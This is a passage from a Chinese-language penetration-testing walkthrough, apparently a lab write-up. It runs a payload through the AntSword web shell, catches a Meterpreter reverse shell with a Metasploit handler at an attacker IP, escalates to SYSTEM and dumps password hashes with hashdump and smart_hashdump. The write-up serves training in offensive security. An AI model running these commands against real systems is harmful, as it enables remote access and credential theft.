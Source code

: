 **tips：**这边的locaohost(lhost)是攻击机kali的ip地址，千万不要填成靶机ip

![image-20230516121349150](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516121349150.png)

通过蚁剑上传并执行
![image-20230516115437667](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516115437667.png)

在shell里执行run.exe

![image-20230516115523188](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516115523188.png)

在kali中进入msf相关模块:

```
msfconsole
use multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost 192.168.126.129
set lport 2333
exploit -j(后台)允许
```

![image-20230516121146493](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516121146493.png)

随后通过`sessions`命令来查看反弹回来的shell
![image-20230516121300186](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516121300186.png)

随后`sessions -i 1`进入这个session

![image-20230516133857717](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516133857717.png)

### 提权system：

这里已经是system权限了，如果是administrator的话，需要先提权`getsystem`

> 一般提权流程：
>
> ```
> sysinfo
> getuid  (发现是administor权限)
> getsystem (获取system权限)
> ```

随后获取账号密码：

```
run hashdump
```

不知道为啥我除了一堆报错

除了hashdump，msf提供了一个用来获取域内用户hash的脚本，执行以下代码：

```
run post/windows/gather/smart_hashdump
```
